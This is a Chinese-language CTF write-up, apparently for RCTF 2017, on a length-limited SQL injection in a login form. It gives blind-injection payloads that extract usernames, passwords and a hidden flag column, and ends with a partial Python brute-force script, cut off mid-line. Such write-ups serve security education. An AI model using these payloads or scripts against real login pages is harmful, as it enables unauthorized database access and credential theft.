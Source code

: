 ```
	if count >1:
		print "[success]  "+id
		exit()

	uurl = 'http://rcdn.2017.teamrois.cn/dashboard/basic/destroy/'+id

	r = s.get(uurl, cookies=cookie)
```
![image.png-97.7kB][4]



# login #

登陆处有注入，这里最大的问题在于长度，username只能输入36位长的字符串。而这里也埋下了很多伏笔，题目本身是会返回报错的，我们也能从报错中获得很多信息，比如表名，fuzz列名，但实际上这里的显错理论上并不够做更多的事情(不知道有没有人能构造出来)...理论上来说这里个大坑。

通过显错我们可以得到，表名user，可以测试出的字段id,username,password

接下来就是构造盲注了，为了节省位数，我们需要用户名为一位的账号，不知道是不是故意的，有好几个账号为一个字母，密码也为一个字母的号，随便挑一个。

构造payload
```
"p'||substr(username,1,1)='a"
```
可以fuzz，是否存在用户名的第一位为a的用户，如果存在，那么select出来的密码将和输入的密码不匹配，登陆失败，如果不存在，select出来的密码将为账号p的密码，就会登陆成功。

翻了半天发现username没有收获，后来无意间注入了id为1的账号和密码，才有所收获

```
"p'||id=1&&substr(password,1,1)='a"
```

得到id=1，账号为admin，密码是一个hint
```
hint:flag_is_in_this_table_and_its_column_is_qthd2glz_but_not_the_
```

已经得到了有效信息，后面也没继续跑了

下面我们要注入这个字段qthd2glz，这里又有了问题，这个字段根据猜测应该是用来储存用户密码加密的盐的（后来发现还有假flag），因为长度限制的关系，我们只能通过前后字母的关系来确认判断，通过预设`RCTF{`开头来跑接下来的数据，很快我们就能得到一个全小写的flag.

```
RCTF{s1mpl3_m_err0r_ba3ed_i}
```

但问题在于我们无法知道哪些字母是大写的，这里只能通过hex来判断，但是这样一来，位数就不够用了，只能通过2位的前后关系来判断结果，就好像世界线崩坏了一样，不过配合一些手工，结果很多就出来了。

附上最后使用的脚本

```
import requests

s = requests.session()
ll = "_}0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
url = "http://login.2017.teamrois.cn/login"

def test():
	r = s.get(url = url)
	csrf = r.text[1813:1867]
	result="RCTF{S1mpl3_M_Err0r_Ba3eD_I}"

	# for j in xrange(28):
	for i in ll:
		sql = "p'||substr(hex(qthd2glz),"+str((len(result))*2-1)+",4)='"+result[-1:].encode('hex')+i.encode('hex')
		lll = "123456789012345678901234567890123456"
		# RCTF{S1mpl3_m_err0r_ba3ed_i}
		# RCTF{this
```

  [1]: http://static.zybuluo.com/LoRexxar/q2pugzy449ug7g2jwrtil2nb/QQ%E5%9B%BE%E7%89%8720170522042700.png
  [2]: http://static.zybuluo.com/LoRexxar/a30ck5pgg6c3s3cp2cszgqje/QQ%E5%9B%BE%E7%89%8720170522042704.png
  [3]: http://static.zybuluo.com/LoRexxar/xq1dvd410k4akjrkph9czibf/image.png
  [4]: http://static.zybuluo.com/LoRexxar/gatcaa6kdfsj5yp83tqr0gum/image.png
  [5]: http://static.zybuluo.com/LoRexxar/hw3a6uxucuisymxec92xlpf0/image.png
  [6]: http://static.zybuluo.com/LoRexxar/5lj4p4dzhmbwfyro8otybn55/image.png
  [7]: http://static.zybuluo.com/LoRexxar/j2zejln8rr685i5z2kqug0lz/image.png
  [8]: http://static.zybuluo.com/LoRexxar/i5msssh1l4rhwy7sba44n7f9/image.png
  [9]: http://static.zybuluo.com/LoRexxar/ed5svbcx61a5nuigungwferj/image.png
  [10]: http://static.zybuluo.com/LoRexxar/6k5gwkjg2oiv3v94asck3t4k/image.png
  [11]: http://static.zybuluo.com/LoRexxar/b7mq9ysh8bg8ufcti7j4f9qd/image.png
  [12]: http://static.zybuluo.com/LoRexxar/0uu94m6khrhwwabdak1i5pt8/image.png